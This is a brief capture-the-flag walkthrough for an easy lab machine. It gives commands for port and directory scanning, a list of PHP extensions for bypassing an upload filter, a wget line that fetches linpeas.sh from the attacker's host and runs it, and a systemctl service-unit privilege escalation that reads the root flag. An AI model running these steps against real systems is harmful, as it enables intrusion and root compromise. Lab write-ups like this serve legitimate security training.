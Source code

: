 

## Level: Easy


1. Scan with Rustscan

```bash 
rustscan -a 10.10.187.239 --range 1-65535 -- -A -T4 
```

2. Scan the web at port 3333 with gobuster:
```bash 
gobuster dir -u http://10.10.187.239:3333/ -w  /Users/phulelouch/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

3. Upload file, scan the extension list:

```powershell
    .php
    .php3
    .php4
    .php5
    .php7

    # Less known PHP extensions
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    ```

4. Upload file, scan the endpoint

```bash
gobuster dir -u http://10.10.187.239:3333/internal/ -w  /Users/phulelouch/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

5. have shell, read the user.txt
6. upload linpeas.sh

- At host:
```bash
python3 -m http.server 8888
```
- At machine:
```bash
cd /tmp; wget http://ip:8888/linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh
```

7. exploit the systemctl
```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```
